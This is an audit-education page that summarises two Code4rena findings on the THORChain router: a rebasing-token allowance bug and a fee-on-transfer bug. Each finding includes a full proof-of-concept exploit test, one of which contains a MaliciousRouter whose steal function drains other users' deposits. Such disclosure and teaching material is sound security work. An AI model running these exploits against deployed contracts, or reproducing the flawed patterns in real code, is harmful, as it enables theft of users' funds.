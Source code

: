 # ETAAcademy-Adudit: 10. Token

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>10. Token</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>EVM</th>
          <td>Token</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] A malicious user can steal money out of the vault and other users

### Calculating approvals for rebasing tokens

- Summary: A malicious user could exploit the rebasing mechanism of a token like AMPL to steal funds from the vault and other users. The issue arises because the protocol incorrectly handles the approval process for rebasing tokens. The malicious actor deposits 1000 AMPL tokens when the rebasing factor `_gonsPerFragment` is 1, and later, after the factor changes to 2, they can manipulate the system to withdraw more tokens than they originally deposited. This results in the depletion of funds for legitimate users, as the rebasing mechanism alters the token balances in the vault.

- Impact & Recommendation: The recommended fix involves correctly calculating approvals for rebasing tokens to prevent such exploits.

<br> 🐬: [Source](https://code4rena.com/reports/2024-06-thorchain#h-01-A-malicious-user-can-steal-money-out-of-the-vault-and-other-users) & [Report](https://code4rena.com/reports/2024-06-thorchain)

<details><summary>POC</summary>

```solidity

pragma solidity 0.8.22;
import "../lib/forge-std/src/Test.sol";
import {THORChain_Router} from "../chain/ethereum/contracts/THORChain_Router.sol";
contract AMPLTokenSimplified {
    uint256 public _gonsPerFragment = 1;
    mapping(address => uint256) public _gonBalances;
    mapping(address => mapping(address => uint256)) public _allowedFragments;
    function rebase(uint256 gonsPerFragment_) public {
        _gonsPerFragment = gonsPerFragment_;
    }
    function balanceOf(address who) public view returns (uint256) {
        return _gonBalances[who] / (_gonsPerFragment);
    }
    function transfer(address to, uint256 value)
        public
        returns (bool)
    {
        uint256 gonValue = value * (_gonsPerFragment);
        require(_gonBalances[msg.sender] >= gonValue, "You just got beamed lol");

        _gonBalances[msg.sender] = _gonBalances[msg.sender] - (gonValue);
        _gonBalances[to] = _gonBalances[to] + (gonValue);
        return true;
    }
    function allowance(address owner_, address spender) public view returns (uint256) {
        return _allowedFragments[owner_][spender];
    }
    function transferFrom(
        address from,
        address to,
        uint256 value
    ) public returns (bool) {
        _allowedFragments[from][msg.sender] = _allowedFragments[from][msg.sender] - (value);
        uint256 gonValue = value * (_gonsPerFragment);
        _gonBalances[from] = _gonBalances[from] - (gonValue);
        _gonBalances[to] = _gonBalances[to] + (gonValue);
        return true;
    }
    function approve(address spender, uint256 value) public returns (bool) {
        _allowedFragments[msg.sender][spender] = value;
        return true;
    }
    function mint(uint256 amount, address to) public {
        _gonBalances[to] = amount;
    }
}
contract StealMoney is Test {
  THORChain_Router tcRouter;
  AMPLTokenSimplified ampl;
  MaliciousRouter mRouter;
  address malicious = makeAddr('malicious');
  address victim = makeAddr('legit');
  address vault = makeAddr('legitVault');
  function setUp() public {
    tcRouter = new THORChain_Router();
    ampl = new AMPLTokenSimplified();
    mRouter = new MaliciousRouter();
    ampl.mint(1000, malicious);
    ampl.mint(2000, victim);
  }
  function testStealMoney() public {
    vm.startPrank(malicious);
    ampl.approve(address(tcRouter), type(uint256).max);
    tcRouter.depositWithExpiry(payable(malicious), address(ampl), 1000, "you are about to get beamed", type(uint256).max); // Malicious user deposits 1000 tokens
    vm.assertEq(tcRouter.vaultAllowance(malicious, address(ampl)), 1000); // Vault allowance for the malicious user is 1000 tokens
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 1000); // Balance of contract is 1000 tokens
    ampl.rebase(2); // Set _gonsPerFragment to 2
    // Still pranking malicious
    tcRouter.transferAllowance(address(mRouter), malicious, address(ampl), 1000, "lol"); // This just approves 1000 tokens to spend to our malicious router
    vm.assertEq(tcRouter.vaultAllowance(malicious, address(ampl)), 0);
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 500); // Balance is now 500 because _gonsPerFragment is 2
    vm.assertEq(ampl.allowance(address(tcRouter), address(mRouter)), 1000); // Malicious router has been approved for 1000 tokens
    vm.stopPrank();
    vm.startPrank(victim);
    ampl.approve(address(tcRouter), type(uint256).max);
    tcRouter.depositWithExpiry(payable(vault), address(ampl), 1000, "i am about to get beamed :(", type(uint256).max);
    vm.assertEq(tcRouter.vaultAllowance(vault, address(ampl)), 1000); // Allowance for vault is 1000 tokens
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 1500); // Contract has 1500 tokens
    vm.stopPrank();
    uint256 maliciousBalanceBefore = ampl.balanceOf(malicious);
    mRouter.steal(1000, address(tcRouter), malicious, address(ampl)); // 1000 tokens to be sent from the router to the malicious guy
    uint256 maliciousBalanceAfter = ampl.balanceOf(malicious);
    assertEq(maliciousBalanceBefore, 0);
    assertEq(maliciousBalanceAfter, 1000); // 2000 / 2
    // Did not even lose money
    vm.assertEq(ampl.balanceOf(address(tcRouter)), 500); // Only 500 tokens left in the contract
    vm.startPrank(vault);
    // vm.expectRevert("You just got beamed lol");  // You can uncomment this line and paste this error message as the require statement error message after the transfer call to see this is where it reverts in transferOut()
    vm.expectRevert();
    tcRouter.transferOut(payable(victim), address(ampl), 1000, "did I just get beamed?...");
    uint256 victimBalanceBefore = ampl.balanceOf(victim);
    tcRouter.transferOut(payable(victim), address(ampl), 500, "omg I can only withdraw 500 tokens..");
    vm.stopPrank();

    uint256 victimBalanceAfter = ampl.balanceOf(victim);
    assertEq(victimBalanceBefore, 0);
    assertEq(victimBalanceAfter, 500);
  }
}
contract MaliciousRouter {
    function depositWithExpiry(address, address, uint256, string calldata, uint) public {}
    function steal(uint256 amount, address from, address to, address target) public {
        (bool ok, ) = target.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", from, to, amount));
        if (!ok) revert();
    }
}

```

</details>

## 2. [Medium] Incorrect call argument in THORChain_Router::\_transferOutAndCallV5, leading to grief/steal of THORChain_Aggregator’s funds or DoS

### Charge fees on transfer

- Summary: The \_transferOutAndCallV5 function transfers tokens to the THORChain_Aggregator and then calls swapOutV5 with the same amount. However, if the token charges a fee on transfer, the THORChain_Aggregator might not receive the full amount, causing the swapOutV5 call to fail or allowing a malicious actor to steal or lock funds.

- Impact & Recommendation: Implement a safe transfer function to correctly handle tokens that charge fees on transfer, ensuring the actual transferred amount is used in subsequent operations.

<br> 🐬: [Source](https://code4rena.com/reports/2024-06-thorchain#m-01-Incorrect-call-argument-in-THORChain_Router::_transferOutAndCallV5,-leading-to-grief/steal-of-THORChain_Aggregator’s-funds-or-DoS) & [Report](https://code4rena.com/reports/2024-06-thorchain)

<details><summary>POC</summary>

```solidity

const Router = artifacts.require('THORChain_Router');
const Aggregator = artifacts.require('THORChain_Aggregator');
const FailingAggregator = artifacts.require('THORChain_Failing_Aggregator');
const SushiRouter = artifacts.require('SushiRouterSmol');
const Token = artifacts.require('FeeOnTransferERC20Token');
const Weth = artifacts.require('WETH');
const BigNumber = require('bignumber.js');
const { expect } = require('chai');
function BN2Str(BN) {
  return new BigNumber(BN).toFixed();
}
function getBN(BN) {
  return new BigNumber(BN);
}
var ROUTER;
var ASGARD;
var AGG;
var WETH;
var SUSHIROUTER;
var FEE_ON_TRANSFER_TOKEN;
var WETH;
var ETH = '0x0000000000000000000000000000000000000000';
var USER1;
const _1 = '1000000000000000000';
const _10 = '10000000000000000000';
const _20 = '20000000000000000000';
const transferFee = '1000000';
const currentTime = Math.floor(Date.now() / 1000 + 15 * 60); // time plus 15 mins
describe('Aggregator griefing', function () {
  let accounts;
  before(async function () {
    accounts = await web3.eth.getAccounts();
    ROUTER = await Router.new();
    FEE_ON_TRANSFER_TOKEN = await Token.new(transferFee); // User gets 1m TOKENS during construction
    USER1 = accounts[0];
    ASGARD = accounts[3];
    WETH = await Weth.new();
    SUSHIROUTER = await SushiRouter.new(WETH.address);
    AGG = await Aggregator.new(WETH.address, SUSHIROUTER.address);
    FAIL_AGG = await FailingAggregator.new(WETH.address, SUSHIROUTER.address);
  });
  it('Should Deposit Assets to Router', async function () {
    await web3.eth.sendTransaction({
      to: SUSHIROUTER.address,
      from: USER1,
      value: _10,
    });
    await web3.eth.sendTransaction({
      to: WETH.address,
      from: USER1,
      value: _10,
    });
    await WETH.transfer(SUSHIROUTER.address, _10);
    expect(BN2Str(await web3.eth.getBalance(SUSHIROUTER.address))).to.equal(
      _10
    );
    expect(BN2Str(await WETH.balanceOf(SUSHIROUTER.address))).to.equal(_10);
  });
  it("Should grief/steal Aggregator's tokens on Swap Out using AggregatorV5 with FEE_ON_TRANSFER_TOKEN", async function () {
    /*
      Mint FEE_ON_TRANSFER_TOKEN the aggregator
      This mocks a situation where the swapOutV5 has failed and vault's tokens are in the aggregator
    */
    await FEE_ON_TRANSFER_TOKEN.mint(AGG.address, _20);
    /* Get starting balances of the FEE_ON_TRANSFER_TOKEN */
    const startingTokenBalanceOfUser1 = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      USER1
    );
    const startingTokenBalanceOfAggregator =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(AGG.address);
    const startingTokenBalanceOfSushiRouter =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address);
    /* Log starting balances */
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance USER1:',
      BN2Str(startingTokenBalanceOfUser1)
    );
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance SUSHIROUTER:',
      BN2Str(startingTokenBalanceOfSushiRouter)
    );
    console.log(
      'Starting FEE_ON_TRANSFER_TOKEN Balance Aggregator:',
      BN2Str(startingTokenBalanceOfAggregator)
    );
    /* User1 deposits tokens in the ASGARD vault */
    /* Remember that the vault will be credited _20 - transferFee */
    await FEE_ON_TRANSFER_TOKEN.approve(ROUTER.address, _20, { from: USER1 });
    await ROUTER.depositWithExpiry(
      ASGARD,
      FEE_ON_TRANSFER_TOKEN.address,
      _20,
      '',
      currentTime,
      {
        from: USER1,
      }
    );
    /* Log token balance of Router and the accounted allowance after deposit */
    const tokenBalanceOfRouter = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      ROUTER.address
    );
    console.log(
      '\nFEE_ON_TRANSFER_TOKEN Balance Router:',
      BN2Str(tokenBalanceOfRouter)
    );
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(ROUTER.address))
    ).to.equal(BN2Str(getBN(_20).minus(transferFee))); // after FEE_ON_TRANSFER_TOKEN deposit
    /*
      The ASGARD initiates a transfer out and call
      This action transfers _1 token to the aggregator,
      BUT the aggreagator receives _1 - transferFee because of the fee-on-transfer.
      The code in the router calls swapOutV5 with the _1, not _1 - transferFee.
      This will make the transaction to revert if the aggregator does not have enough tokens,
      because the swapOutV5 function will try to transfer _1 token, but it has _1 - transferFee.
      OR (like) in our case, the aggregator has tokens that should be rescued and the swapOutV5 is called with _1
      and the transfer fee is paid by the funds that should be rescued
     */
    const swaps = 7;
    const swapAmount = _1;
    for (let i = 0; i < swaps; i++) {
      await ROUTER.transferOutAndCallV5(
        [
          AGG.address,
          FEE_ON_TRANSFER_TOKEN.address,
          swapAmount,
          ETH,
          USER1,
          '0',
          'MEMO',
          '0x', // empty payload
          'bc123', // dummy address
        ],
        { from: ASGARD, value: 0 }
      );
    }
    /* Calculate total transfer fee paid */
    const totalAmountSwapped = getBN(swapAmount).multipliedBy(swaps);
    const totalTransferFeePaid = getBN(transferFee).multipliedBy(swaps);
    /* Get ending balances of the FEE_ON_TRANSFER_TOKEN */
    const endingTokenBalanceOfUser1 = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      USER1
    );
    const endingTokenBalanceOfAggregator =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(AGG.address);
    const endingTokenBalanceOfRouter = await FEE_ON_TRANSFER_TOKEN.balanceOf(
      ROUTER.address
    );
    const endingTokenBalanceOfSushiRouter =
      await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address);
    /* Log starting balances */
    console.log(
      '\nFinal FEE_ON_TRANSFER_TOKEN Balance Aggregator:',
      BN2Str(endingTokenBalanceOfAggregator)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance USER1:',
      BN2Str(endingTokenBalanceOfUser1)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance SUSHIROUTER:',
      BN2Str(endingTokenBalanceOfSushiRouter)
    );
    console.log(
      'Final FEE_ON_TRANSFER_TOKEN Balance ROUTER:',
      BN2Str(endingTokenBalanceOfRouter)
    );
    /* Make assertions */
    /* Less 1 FEE_ON_TRANSFER_TOKEN - transfer fee (only one transfer User1 -> Router) */
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(ROUTER.address))
    ).to.equal(BN2Str(getBN(_20).minus(totalAmountSwapped).minus(transferFee)));
    /* Add 1 FEE_ON_TRANSFER_TOKEN - (transfer fee) * swaps */
    expect(
      BN2Str(await FEE_ON_TRANSFER_TOKEN.balanceOf(SUSHIROUTER.address))
    ).to.equal(BN2Str(getBN(totalAmountSwapped).minus(totalTransferFeePaid)));
    /* KEY ASSERTIONS */
    /* Expect aggregator's funds to be rescued to be less than starting ones */
    expect(
      getBN(endingTokenBalanceOfAggregator).isLessThan(
        getBN(startingTokenBalanceOfAggregator)
      )
    ).to.equal(true);
  });
});

```

</details>
